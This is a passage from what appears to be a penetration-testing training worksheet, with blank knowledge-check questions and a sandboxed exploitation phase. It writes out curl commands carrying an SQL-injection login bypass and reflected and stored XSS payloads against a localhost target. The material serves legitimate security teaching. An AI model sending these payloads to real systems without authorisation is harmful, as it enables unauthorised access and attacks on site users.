 **Suspicious Patterns to Watch For**:
- _________________________________
- _________________________________
- _________________________________

### Knowledge Check 2:
**Q1**: How do SAST and DAST findings complement each other in penetration testing?
**A1**: _________________________________________________

**Q2**: What factors determine the exploitability of a vulnerability?
**A2**: _________________________________________________

**Q3**: How should vulnerabilities be prioritized for exploitation attempts?
**A3**: _________________________________________________

## ⚔️ Phase 3: Controlled Exploitation (90 minutes)

### 3.1 SQL Injection Exploitation
**Objective**: Safely demonstrate SQL injection impact

#### Pre-Exploitation Checklist:
- [ ] Target confirmed to be in sandbox environment
- [ ] Exploitation method reviewed with instructor
- [ ] Documentation template ready
- [ ] Safety procedures understood

#### Exploitation Attempts:
```bash
# Test basic SQL injection
curl -X POST "http://localhost:5000/login" \
  -d "username=admin' OR '1'='1&password=anything" \
  -H "Content-Type: application/x-www-form-urlencoded"
```

**Results Documentation**:
- **Success/Failure**: _________________________________
- **Data Accessed**: _________________________________
- **Error Messages**: _________________________________
- **Impact Assessment**: _________________________________

### 3.2 Cross-Site Scripting (XSS) Testing
**Objective**: Demonstrate XSS vulnerabilities and impact

#### Exploitation Attempts:
```bash
# Test for reflected XSS
curl "http://localhost:5000/search?q=<script>alert('XSS')</script>"

# Test for stored XSS
curl -X POST "http://localhost:5000/comment" \
  -d "comment=<img src=x onerror=alert('Stored XSS')>" \
  -H "Content-Type: application/x-www-form-urlencoded"
```
